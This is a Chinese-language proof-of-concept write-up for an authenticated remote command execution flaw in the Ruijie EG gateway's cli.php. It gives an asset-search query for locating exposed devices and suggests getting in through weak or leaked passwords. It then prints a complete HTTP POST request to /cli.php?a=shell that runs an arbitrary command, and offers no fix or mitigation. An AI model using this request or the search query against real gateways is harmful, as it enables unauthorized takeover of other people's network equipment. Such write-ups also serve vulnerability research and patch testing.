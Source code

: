 # 锐捷 EG易网关cli存在后台远程命令执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

```java
锐捷EG易网关
```

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

```java
app="Ruijie-EG易网关"
```

<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●登录页面</font>

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/1VOXlH5i8imJ_XHe/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-636269.png)

# <font style="color:rgb(38, 38, 38);">四、漏洞复现</font>
1. 通过弱口令或账号密码泄露漏洞登录后台获取cookie

![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/1VOXlH5i8imJ_XHe/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-408094.png)

2. 通过上一步获取的cookie执行命令

```java
POST /cli.php?a=shell HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=j4rjrjdtilmhj824o98sv11r45; helpKey=home_sys;user=admin; 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

notdelay=true&command=id
```

![1711298769718-5281899e-c512-4cdb-b948-3ab79506923b.png](./img/1VOXlH5i8imJ_XHe/1711298769718-5281899e-c512-4cdb-b948-3ab79506923b-483591.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rggbsmpwgacek7ih>